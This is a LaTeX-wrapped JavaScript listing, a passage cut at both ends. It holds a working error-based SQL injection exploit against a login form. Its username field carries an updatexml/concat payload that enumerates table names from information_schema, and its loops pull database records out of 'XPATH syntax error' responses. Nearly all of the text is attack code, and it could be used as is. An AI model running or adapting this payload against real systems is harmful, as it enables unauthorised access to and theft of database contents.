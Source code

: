 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=JavaScript, label={lst:sql-js}]
        const html = await resp.text();

        if (!html.includes('XPATH syntax error')) {
            console.log(`All agent records extracted (${i} total).`);
            break;
        }

        const match = html.match(/~([^~]+)~/);
        if (match) {
            const record = match[1];
            records.push(record);
            i++;
        } else {
            console.log(`Got error but no record at index ${i}, stopping.`);
            break;
        }
    }

    return records;
}

// self invoke function

(async function getTableNames() {
    console.log('Extracting table names..')
    const tableNames = [];
    let attempt = 0;
    while (true) {
        try {
            const sql = `' or updatexml(0,concat('~',(SELECT table_name 
                FROM information_schema.tables 
                WHERE table_schema NOT IN 
                ('mysql','information_schema','performance_schema','sys') 
                ORDER BY table_name LIMIT ${attempt},1),'~'),0)or '# `;
            const body = new URLSearchParams({
                username: sql,
                password: 's'
            }).toString();
            // fetch request from browser
            const resp = await fetch(url, {
                "credentials": "include",
                "headers": {
                    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0",
                    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                    "Accept-Language": "en-US,en;q=0.5",
                    "Content-Type": "application/x-www-form-urlencoded",
                    "Upgrade-Insecure-Requests": "1",
                    "Priority": "u=0, i"
                },
                "referrer": url,
                "body": body,
                "method": "POST",
                "mode": "cors"
            });
            attempt++;
            const pageRaw = await resp?.text();
            if (!pageRaw.includes('XPATH syntax error')) {
                console.log('No more XPATH errors – done.', attempt);
                break;
            }
            const m = pageRaw.match(/~([A-Za-z0-9_]+)~/);
            if (m) {
                // console.log('table #', attempt, ':', m[1]);
                tableNames.push(m[1]);
            } else {
                console.log('Error thrown but no valid name found → stop');
                break;
            }



\end{lstlisting}
\end{document}
